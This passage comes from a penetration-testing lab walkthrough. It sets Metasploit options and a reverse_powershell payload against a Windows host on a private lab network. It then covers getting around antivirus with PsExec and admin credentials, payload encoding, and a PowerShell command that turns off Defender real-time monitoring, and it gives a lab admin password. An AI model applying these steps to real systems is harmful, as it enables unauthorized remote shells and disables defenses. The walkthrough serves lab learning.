 ![[Pasted image 20231204015959.png]]
- now set the target to windows
```bash
set target 1
```

![[Pasted image 20231204020317.png]]

- As evident, we have successfully set the target to Windows. However, it is imperative to configure all the options accordingly. There is a field labelled "Required" where all items marked as "yes" must be set, otherwise the exploit will not function effectively.
- So we need to set the *RHOSTS*, *RPORT* (If not set) and the *LHOST* we also need to set a payload 

```bash
set RHOSTS 192.168.10.2

set targeturi /index.php

set LHOST 192.168.10.253
```

- Now lets have a look at all the different payload we can use, and select one. 
```bash
show payloads
```

![[Pasted image 20231204021528.png]]
- Since this is a windows machine it would be a goo idea to use the **reverse_powershell** payload
- Run show options again and the setting should look something like this: ~ 
![[Pasted image 20231204021921.png]]

![[Pasted image 20231204022433.png]]
> After running the exploit we can see it didn't work, this is due to anti-virus running on the server.

1. There is a few ways that a pentester can get around this, we could use the *Psexec* tool to disable the anti-virus since we have a list of admin accounts with the passwords. 
2. A pentester could also obfuscate the payload by using certain tools or using msfvenom to encode the payload. 

In this guide i am going to be using the *Psexec* tool as i already have a list of accounts that i can make use of. 

>Also note that Colin McLean’s Python exploit that we used previously was successful.
  If Windows Defender does not recognize the code as malware then it won’t stop it running. i.e. There
  is a big advantage to being able to script your own exploits (we will look at doing this in the future).

> You can find the PsExec method in part 1 of this guide. Follow the guide then go back to msfconsole to run the exploit again.

- if this method does not work, we are able to cheat a little bit and disable the anti-virus manually by logging on to the Administrator account, the password is **Thisisverysecret1**
- open the command prompt and run PowerShell and enter the following:~ 
  `Set-MpPreference -DisableRealtimeMonitoring $true`
